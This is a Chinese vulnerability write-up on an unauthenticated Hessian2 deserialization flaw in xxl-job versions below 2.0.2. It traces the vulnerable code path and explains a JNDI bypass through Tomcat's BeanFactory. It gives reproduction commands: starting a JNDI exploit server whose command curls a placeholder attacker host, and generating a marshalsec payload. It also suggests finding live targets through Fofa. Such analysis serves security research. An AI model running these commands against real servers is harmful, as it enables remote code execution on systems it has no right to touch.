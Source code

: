 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aZe5tphbaOpbFvI2Y2BVmA)

前言
--

最新版有师傅已经给出 POC, 配置执行器, 新建任务对关联服务器执行`shell`命令，但是比较蛋疼的是可能关联服务在内网，无法直接从公网攻击.

链接：https://github.com/jas502n/xxl-job

本文主要针对 xxl-job 低版本 api 接口存在 Hessian2 反序列化，可以直接攻击调度中心.

测试环境
----

xxl-job 2.0.2

Jdk: 8u191

Linux

JobApiController#api
--------------------

在 version`<`2.0.2 版本中,`JobApiController#api`中调用`invokeAdminService`处理请求数据. 且设置了造成`@PermessionLimit(limit=false)`访问该接口不需要鉴权

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMz1HBtY0oia9TvjonyBlIwZesmCYic4bjlYquYWkAgLtXGLicTsKv6WATfg/640?wx_fmt=png)

直接单步跟进`com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler.invokeAdminService`=>`com.xxl.rpc.remoting.net.impl.servlet.server.ServletServerHandler.handle`方法中, 调用`parseRequest`处理`request`对象

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMzPW10IjcJ1URY1yduXoGb4hcJPrXWbpH4uhGKjIn99xCSzzxtvKfPIA/640?wx_fmt=png)

继续跟进，调用`readBytes`读取请求中的数据, 最终是调用`Hessian2`反序列化`requestBytes`.

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMzcEb4FRjhIkNxo0XibDR2tyrvj6I3icGKUtvh49YNLOCkuluWF6BJ6PtQ/640?wx_fmt=png)

JNDI Bypass

参考：https://www.veracode.com/blog/research/exploiting-jndi-injections-java

在测试时候总需要一个比较稳定的 POC，高版本 JDK 对 JNDI 注入进行限制即限制远程类加载，表现在如 RMI/LDAP 服务收到请求，HTTP 服务无响应.

绕过的思路是：在 CLASSPATH 中找到工厂类，对引用的 Reference 属性添加危险方法或属性，该危险方法也需要在 CLASSPATH 中存在.

原文作者利用 Apache Tomcat 中的`org.apache.naming.factory.BeanFactory`类, 结合`javax.el.ELProcessor`执行任意代码. 赶巧的是`xxl-job`基于`Spring`框架，底层是利用`tomcat`服务器.

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMzPUujwb6DiazEmZUWk3O9rbLyhJblYpmwVJWVLwDxEQImrvHf1wicz7Ag/640?wx_fmt=png)

复现

现成的 JNDI Bypass 利用工具已经有师傅写好，可以直接拿来用

https://github.com/welk1n/JNDI-Injection-Exploit

```
# 启动服务
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "curl vps:8817"

# 生成payload
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor [rmi服务] > ~/Desktop/test13.ser
```

Fofa 上找个 xxl-job, 具体指纹访问 api 会有如下报错.

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMzcp7V2tKskj3ibuOPgRTGBs9BcPoTDIEDVzaDdr718caGEgibUxuKaFnA/640?wx_fmt=png)

利用如下

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic28j3K2KpgBhZUFic6NMtJMzeiaYa84XTgjmmq69dYIzMrKFejwt4SyWxzia54KZRMyRwcZqUHCLib9yA/640?wx_fmt=png)

参考链接  

https://www.xuxueli.com/xxl-job/

https://github.com/welk1n/JNDI-Injection-Exploit

https://www.veracode.com/blog/research/exploiting-jndi-injections-java

### 作者：osword，文章来源：先知社区

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)